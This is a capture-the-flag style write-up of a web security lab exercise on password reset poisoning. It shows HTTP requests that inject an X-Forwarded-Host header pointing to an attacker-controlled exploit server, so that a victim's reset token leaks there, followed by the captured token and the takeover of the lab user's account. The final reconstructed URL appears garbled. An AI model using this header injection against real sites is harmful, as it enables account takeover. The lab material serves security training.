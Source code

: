 # Password reset poisoning via middleware

**Request:**
The goal is to gain access to the user `carlos` which will carelessly clik on any links in email that he receives.

**Solution:**
Using Burp Suite I clicked on the **Forgot Password**, and observevd the request.

```http
POST /forgot-password HTTP/2
Host: 0adf005e033b58f480cd941600a70092.web-security-academy.net
...
Referer: https://0adf005e033b58f480cd941600a70092.web-security-academy.net/forgot-password
```

Having `Referer` here tells us that here we may also have the header `X-Forwarded-Host`.

So I added that with the value the URL of our exploit server.

```http
POST /forgot-password HTTP/2
Host: 0adf005e033b58f480cd941600a70092.web-security-academy.net
...
Referer: https://0adf005e033b58f480cd941600a70092.web-security-academy.net/forgot-password
X-Forwarded-Host: exploit-0aa800920395588b806593a9013b00ea.exploit-server.net/exploit
```

When sending this request, and looking onto our exploit server logs, I see the request with the token.

```http
GET /exploit/forgot-password?temp-forgot-password-token=69e303ffigq1m6fi75y8zzhk10dvc0lp HTTP/1.1
```

So I use this to the original URL, and it becomes:

```
https://0adf005e033b58f480cd941600a70092.web-security-academy.nethttps://0adf005e033b58f480cd941600a70092.web-security-academy.net/
```

Here I was prompted to give the new password, and it provided with the access to the user `carlos`.